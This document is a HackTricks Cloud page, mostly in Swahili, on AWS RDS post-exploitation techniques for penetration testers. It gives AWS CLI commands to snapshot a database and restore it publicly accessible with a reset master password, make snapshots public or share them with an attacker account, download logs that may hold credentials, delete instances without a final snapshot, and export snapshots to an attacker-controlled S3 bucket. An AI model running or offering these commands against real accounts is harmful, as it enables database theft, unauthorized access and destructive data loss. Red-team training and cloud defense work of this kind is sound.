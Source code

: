 # AWS - RDS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Ikiwa mshambuliaji ana ruhusa za kutosha, anaweza kufanya **DB iweze kupatikana hadharani** kwa kuunda picha ya DB, na kisha DB inayoweza kupatikana hadharani kutoka kwenye picha hiyo.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Mshambuliaji mwenye ruhusa hizi anaweza **kuunda picha ya DB** na kuifanya **ipatikane** **hadharani**. Kisha, anaweza tu kuunda katika akaunti yake mwenyewe DB kutoka kwa picha hiyo.

Ikiwa mshambuliaji **hana `rds:CreateDBSnapshot`**, bado anaweza kufanya **picha** nyingine zilizoundwa **kuwa za umma**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

Mshambuliaji mwenye ruhusa ya `rds:DownloadDBLogFilePortion` anaweza **kupakua sehemu za faili za logi za RDS**. Ikiwa data nyeti au akreditivu za ufikiaji zimeandikwa kwa bahati mbaya, mshambuliaji anaweza kutumia taarifa hii kuongeza mamlaka yao au kufanya vitendo visivyoidhinishwa.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa taarifa nyeti au vitendo visivyoidhinishwa kwa kutumia akreditivu zilizovuja.

### `rds:DeleteDBInstance`

Mshambuliaji mwenye ruhusa hizi anaweza **kusababisha DoS kwa mifano ya RDS iliyopo**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Madhara yanayoweza kutokea**: Kufutwa kwa mifano ya RDS iliyopo, na kupoteza data.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Jaribu
{% endhint %}

Mshambuliaji mwenye ruhusa hii anaweza **kutoa picha ya mfano wa RDS kwenye kikasha cha S3**. Ikiwa mshambuliaji ana udhibiti wa kikasha cha S3 kilichokusudiwa, wanaweza kupata data nyeti ndani ya picha iliyotolewa.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Madhara yanayoweza kutokea**: Ufikiaji wa data nyeti katika picha iliyosafirishwa.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
